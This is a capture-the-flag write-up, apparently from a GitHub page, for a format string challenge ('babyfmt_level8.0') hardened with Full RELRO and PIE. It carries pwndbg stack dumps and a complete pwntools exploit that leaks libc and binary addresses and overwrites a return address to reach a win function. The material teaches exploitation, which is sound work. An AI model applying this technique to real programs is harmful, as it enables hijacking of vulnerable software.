





# Format String Attack - Redirect Code Execution (Full Relro+PIE Enabled)

RELRO = _Relocation Read-Only_. It’s an ELF security hardening feature that changes how the **Global Offset Table (GOT)** is handled at runtime.

**Full RELRO** (compile with `-z relro -z now`):
- The dynamic linker **resolves all symbols immediately at startup** (instead of lazy resolution).
- After that, the **entire GOT (including `.got.plt`) is made read-only**.
- This means you can’t perform classic GOT-overwrite attacks anymore.

PIE = _Position Independent Executable_. It makes the binary behave like a shared library in terms of loading.  
Instead of always loading at a fixed base address (e.g. `0x400000`), the **entire binary is relocated to a random base address** each run.

**PIE enabled**:
   - Code section, functions, and globals shift to a different base address at each execution.
   - Combined with **ASLR** (Address Space Layout Randomization), every run has a different layout. 
   - Attacker must first _leak_ an address to calculate offsets.

## babyfmt_level8.0

```css
root@98c8193f4dfd:/host# checksec ./babyfmt_level8.0
[*] '/host/babyfmt_level8.0'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

The challenge same as previous one except, This time **PIE** enabled and **FULL RELRO** . That means explained above, GOT is not writable also code section, functions, and globals shift to a different base address at each execution.

The way to achieve flag is same. **win** function luckily still there. But the target is not clear as **win** function.

After generating the template PoC with **pwntools** with `pwn template --libc=./libc.so.6 ./babyfmt_level8.0|tee exploit.py`, sent `%p|%p|%p|%p|%p|%p|%p|%p|`.


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level8.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level8.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
brva 0x17a0
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'vulnerability:\n', payload)


io = start()


#### write part ####
offset = 30
padlen = 7

send_fmt('%p|%p|%p|%p|%p|%p|%p|%p|')

io.interactive()
```

### Finding leak points in stack

One screenshot but tells tons of things.

> 1- 1st and 3rd offsets always points to address inside libc. So these addresses is could be targeted for libc calculations. The offset of the libc address marked with green box.
> 2- Same examination could be follow after settling breakpoint at 0x17a0. In your binary the offset may different. So consider in your binary and environment.

But only libc address is not enough, still need to find an address inside binary memory space. So can calculate the exe base address.




My workflow same as below. Checking stack with awesome features **[telescope](https://pwndbg.re/pwndbg/latest/commands/memory/telescope/)** and **[probeleak](https://pwndbg.re/pwndbg/latest/commands/memory/probeleak/)**.

The below output shows where leaked address comes *0x00007f0b0a7e0297* address. If you look a little close, you can realize there is also addresses from executable memory space addresses comes after.

The address *0x00007f0b0a7e0297* is the address of **write+23** and offset in libc: *0x10e297*

```css
pwndbg> probeleak $rsp-0x100 0x650
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
0x010: 0x00007ffd0b6ed970 = (rw-p) [stack] + 0x1f970
0x018: 0x00007f0b0a733d3f = (r-xp) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0x3fd3f (printf+175)
0x028: 0x00007ffd0b6ed4f0 = (rw-p) [stack] + 0x1f4f0
0x030: 0x00007ffd0b6ed430 = (rw-p) [stack] + 0x1f430
0x048: 0x00007f0b0a8bf723 = (rw-p) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0x1723 (_IO_2_1_stdout_+131)
0x058: 0x00007f0b0a7e0297 = (r-xp) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0xec297 (write+23)
0x080: 0x00007f0b0a8bf6a0 = (rw-p) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0x16a0 (_IO_2_1_stdout_)
0x088: 0x000055a2df9f853d = (r--p) /host/babyfmt_level8.0_remotelibc + 0x53d
0x090: 0x000055a2df9fa020 = (rw-p) /host/babyfmt_level8.0_remotelibc + 0x20 (stdout@@GLIBC_2.2.5)
0x098: 0x00007f0b0a8bb4a0 = (r--p) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0x14a0 (__GI__IO_file_jumps)
0x0a8: 0x00007f0b0a762e93 = (r-xp) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0x6ee93 (__GI__IO_file_overflow+275)
0x0b8: 0x00007f0b0a8bf6a0 = (rw-p) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0x16a0 (_IO_2_1_stdout_)
0x0c0: 0x000055a2df9f853d = (r--p) /host/babyfmt_level8.0_remotelibc + 0x53d
0x0c8: 0x00007f0b0a75659a = (r-xp) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0x6259a (puts+378)
0x0d8: 0x00007ffd0b6ed970 = (rw-p) [stack] + 0x1f970
0x0e0: 0x000055a2df9f7220 = (r-xp) /host/babyfmt_level8.0_remotelibc + 0x220 (_start)
0x0e8: 0x00007ffd0b6edab0 = (rw-p) [stack] + 0x1fab0
0x0f8: 0x000055a2df9f77a0 = (r-xp) /host/babyfmt_level8.0_remotelibc + 0x7a0 (func+515)
0x108: 0x00007ffd0b6ed5a9 = (rw-p) [stack] + 0x1f5a9
0x118: 0x00007f0b0a8c4570 = (rw-p) [anon_7f0b0a8c0] + 0x4570
0x150: 0x00007f0b0a8fd4f8 = (rw-p) [anon_7f0b0a8fd] + 0x4f8
0x158: 0x00007ffd0b6ed708 = (rw-p) [stack] + 0x1f708
0x560: 0x000055a2df9f7970 = (r-xp) /host/babyfmt_level8.0_remotelibc + 0x970 (__libc_csu_init)
0x570: 0x00007ffd0b6ed9c0 = (rw-p) [stack] + 0x1f9c0
0x578: 0x000055a2df9f7970 = (r-xp) /host/babyfmt_level8.0_remotelibc + 0x970 (__libc_csu_init)
0x580: 0x00007ffd0b6ed9c0 = (rw-p) [stack] + 0x1f9c0
0x588: 0x000055a2df9f795a = (r-xp) /host/babyfmt_level8.0_remotelibc + 0x95a (main+406)
0x598: 0x00007ffd0b6edac8 = (rw-p) [stack] + 0x1fac8
0x5a0: 0x00007ffd0b6edab8 = (rw-p) [stack] + 0x1fab8
0x5c0: 0x00007ffd0b6edac0 = (rw-p) [stack] + 0x1fac0
0x5c8: 0x00007ffd0b6edb50 = (rw-p) [stack] + 0x1fb50
0x5d8: 0x00007f0b0a6f6083 = (r-xp) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so + 0x2083 (__libc_start_main+243)
0x5e0: 0x00007f0b0a8fb620 = (r--p) /root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/ld-2.31.so + 0x620 (_rtld_global_ro)
0x5e8: 0x00007ffd0b6edab8 = (rw-p) [stack] + 0x1fab8
0x5f8: 0x000055a2df9f77c4 = (r-xp) /host/babyfmt_level8.0_remotelibc + 0x7c4 (main)
0x600: 0x000055a2df9f7970 = (r-xp) /host/babyfmt_level8.0_remotelibc + 0x970 (__libc_csu_init)
0x610: 0x000055a2df9f7220 = (r-xp) /host/babyfmt_level8.0_remotelibc + 0x220 (_start)
0x618: 0x00007ffd0b6edab0 = (rw-p) [stack] + 0x1fab0
```

If you try to leak closer executable memory addresses, you will face some issues. For example if you try to leak **0x088** or **0x090** offsets, you can not get those addresses. This happens in the runtime these addresses offsets changes because of executable printing and inserting texts into that stack area. So the needed leak address for executable memory space should be carefully choose. So i decided to choose return address of func in stack which is **0x588: main+406**. 

This chosen because of these addresses should be stable in the those stack locations. This way or another way when func function reach to end it should be return to the main. Also this offset and address will be useful later. So the offset **0x580** is the **rbp** offset.

The final crafted payload for leak: `%3$p|%151$p|%150$p`.



The rest is subtracting offsets from addresses and getting base addresses of libc and executable. 



You may wonder why subtracting 0x50 from rbp. As you can see rbp address points rbp_address+0x50 inside of it. This arranged by the executable. If you check a few instruction below from func prologue routine, the addition happens via rax. 

```css
pwndbg> tele $rsp+0x400 32
00:0000│-080 0x7ffc5889a010 ◂— 0
... ↓        11 skipped
0c:0060│-020 0x7ffc5889a070 —▸ 0x55e0ed271970 (__libc_csu_init) ◂— endbr64 
0d:0068│-018 0x7ffc5889a078 ◂— 0xd3440f1a4a413500
0e:0070│-010 0x7ffc5889a080 —▸ 0x7ffc5889a0e0 ◂— 0
0f:0078│-008 0x7ffc5889a088 —▸ 0x55e0ed271970 (__libc_csu_init) ◂— endbr64 
10:0080│ rbp 0x7ffc5889a090 —▸ 0x7ffc5889a0e0 ◂— 0
11:0088│+008 0x7ffc5889a098 —▸ 0x55e0ed27195a (main+406) ◂— lea rdi, [rip + 0xe39]
12:0090│+010 0x7ffc5889a0a0 ◂— 2
13:0098│+018 0x7ffc5889a0a8 —▸ 0x7ffc5889a1e8 —▸ 0x7ffc5889b710 ◂— 0
14:00a0│+020 0x7ffc5889a0b0 —▸ 0x7ffc5889a1d8 —▸ 0x7ffc5889b6ee ◂— 0
15:00a8│+028 0x7ffc5889a0b8 ◂— 0x1ed271970
16:00b0│+030 0x7ffc5889a0c0 ◂— 0
17:00b8│+038 0x7ffc5889a0c8 ◂— 0x2710ed271220
18:00c0│+040 0x7ffc5889a0d0 —▸ 0x7ffc5889a1e0 ◂— 0
19:00c8│+048 0x7ffc5889a0d8 —▸ 0x7ffc5889a270 ◂— 0
1a:00d0│+050 0x7ffc5889a0e0 ◂— 0
1b:00d8│+058 0x7ffc5889a0e8 —▸ 0x7f2dc325d083 (__libc_start_main+243) ◂— mov edi, eax
1c:00e0│+060 0x7ffc5889a0f0 —▸ 0x7f2dc3462620 (_rtld_global_ro) ◂— 0x6100100000000
1d:00e8│+068 0x7ffc5889a0f8 —▸ 0x7ffc5889a1d8 —▸ 0x7ffc5889b6ee ◂— 0
1e:00f0│+070 0x7ffc5889a100 ◂— 0x100000000
1f:00f8│+078 0x7ffc5889a108 —▸ 0x55e0ed2717c4 (main) ◂— endbr64 
```

### find offset and padlen

So far so good, now before choosing the target address, find out the **user_buffer** start offset and needed **padlen** values.

Again i edited search string **FmtStr.leak_stack** method in `/usr/local/lib/python3.12/dist-packages/pwnlib/fmtstr.py` .

The method after edited looks like this. The only difference **END** to **ENT**. This is necessary because **END** string is affect behaviour of binary working routine.

```python
def leak_stack(self, offset, prefix=b""):
        payload = b"START%%%d$pENT" % offset
        leak = self.execute_fmt(prefix + payload)
        try:
            leak = re.findall(br"START(.*?)ENT", leak, re.MULTILINE | re.DOTALL)[0]
            leak = int(leak, 16)
        except ValueError:
            leak = 0
        return leak
```

The needed values found as below.

```css
[*] Stopped process '/host/babyfmt_level8.0' (pid 216)
[*] Found format string offset: 30
[+] User input starts at  : 30
[+] Needed pads           :7
[+] Numbwritten           :0
```


### Find the suitable target for code redirection

^numbwritten-calculation

The first thing in my mind is the overwrite return address. Why not ? 
Now the first thing finding how many bytes written in so far. To find out easy way set **numbwritten=0x0** and overwrite return with 0x10.

Set breakpoint end of **func** function and what value overwritten there find out.
As you can see when try to write return address with **0x10** it turns out 0x69. That means written bytes **0x59**.



### get_flag.py

After settling **numbwritten=0x59** and write return address with **win** function.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level8.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level8.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
#brva 0x17a0
brva 0x17c3
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'vulnerability:\n', payload)


io = start()

#################################################
#### LEAK ADDRESSES AND CALCULATING OFFSETS #####
#################################################

send_fmt('%3$p|%151$p|%150$p')

io.recvuntil(b'Your input is:')
io.recvline()
leaks = io.recvline().strip().split(b'|')

info(leaks)
rbp_addr    = int(leaks[2], 16)-0x50
exe.address = int(leaks[1], 16)-0x195a
libc.address= int(leaks[0], 16)-0x10e297

success(f'RBP  Address   : {rbp_addr:#x}')
success(f'EXE  BASE Addr : {exe.address:#x}')
success(f'LIBC BASE Addr : {libc.address:#x}')
success(f'WIN Address    : {exe.sym.win:#x}')

#### write part ####
offset = 30
padlen = 7

f = FmtStr(send_fmt, offset=30, padlen=7, numbwritten=0x59)
f.write(rbp_addr+0x8, exe.sym.win)
f.execute_writes()

io.sendafter(b'vulnerability:\n', b'END')

io.interactive()
```


**The result:**




### Conclusion

I think this is perfect binary for practicing other potential targets. As a reminder i dropped 2 link great value to me.

[https://googleprojectzero.blogspot.com/2014/08/the-poisoned-nul-byte-2014-edition.html](https://googleprojectzero.blogspot.com/2014/08/the-poisoned-nul-byte-2014-edition.html)
[https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html](https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html)

## References

[https://sourceware.org/glibc/wiki/PointerEncryption](https://sourceware.org/glibc/wiki/PointerEncryption)


